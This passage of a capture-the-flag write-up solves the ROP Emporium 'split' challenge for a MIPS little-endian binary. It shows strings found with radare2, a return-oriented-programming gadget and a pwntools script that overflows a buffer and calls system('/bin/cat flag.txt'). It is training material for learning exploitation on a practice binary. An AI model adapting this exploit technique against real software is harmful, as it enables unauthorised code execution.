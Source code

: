 ```
[0x00400690]> rabin2 -z split_mipsel
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000c20 0x00400c20 21  22   .rodata ascii split by ROP Emporium
1   0x00000c38 0x00400c38 5   6    .rodata ascii MIPS\n
2   0x00000c40 0x00400c40 8   9    .rodata ascii \nExiting
3   0x00000c4c 0x00400c4c 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000c7c 0x00400c7c 10  11   .rodata ascii Thank you!
5   0x00000c88 0x00400c88 7   8    .rodata ascii /bin/ls
0   0x00001010 0x00411010 17  18   .data   ascii /bin/cat flag.txt
```
Here we have the string at 0x00411010 address and the system function is called at 0x004009ec. So we need to place a value into a0 and
then jump where the system is called.

Here i looked for a gadget with radare because ropgadget wasn't find gadget useful. So with the command **/R lw** I finally found this gadget.
This gadget could be found also by reading the symbols of the file it is placed into **loc.usefulGadget**.
This gadget take from the stack the value for the registers a0 and t9 and then jump into the value of t9.

Now we just need to create our payload.

```asm
0x00400a20           0800a48f  lw a0, 8(sp)
0x00400a24           0400b98f  lw t9, 4(sp)
0x00400a28           09f82003  jalr t9
0x00400a2c           00000000  nop
```

This is the script that i created for this challenge:

```python
from pwn import *
context.binary = elf = ELF('./split_mipsel')

flag_string = 0x00411010
call_system = 0x004009ec
a0_8sp_t9_4sp_jmpt9 = 0x00400a20

offset = 36
payload = b'A'*36 + p32(a0_8sp_t9_4sp_jmpt9)+p32(0x1)+p32(call_system)+p32(flag_string)

p = elf.process()
#p = gdb.debug(elf.path)

p.recv()
p.sendline(payload)
log.info(p.recvall())

```



